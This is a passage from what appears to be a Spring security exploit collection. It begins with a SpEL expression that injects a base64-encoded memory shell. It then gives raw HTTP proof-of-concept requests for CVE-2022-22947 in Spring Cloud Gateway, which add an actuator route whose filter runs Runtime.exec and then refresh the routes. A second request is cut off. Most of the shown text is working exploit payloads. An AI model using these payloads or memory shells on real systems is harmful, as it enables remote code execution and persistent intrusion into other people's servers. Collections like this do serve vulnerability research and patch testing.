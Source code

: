 ```

// MemShell
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```

### （2）Spring Cloud Gateway
#### CVE-2022-22947 RCE
Affected Version: < 3.1.1 or < 3.0.7

Ref: 

https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/

https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/  

Diff: https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e

POC1(Command Execution): 
```
POST /actuator/gateway/routes/new_route HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
Content-Type: application/json

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/new_route/**"
      }
    }
  ],
  "filters": [
    {
      "name": "RewritePath",
      "args": {
        "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"open -a Calculator\")}",
        "_genkey_1": "/${path}"
      }
    }
  ],
  "uri": "https://wya.pl",
  "order": 0
}
```
```
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Content-Type: application/json
Connection: close
Content-Length: 258
```
POC2(Command Execution + Response):
```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```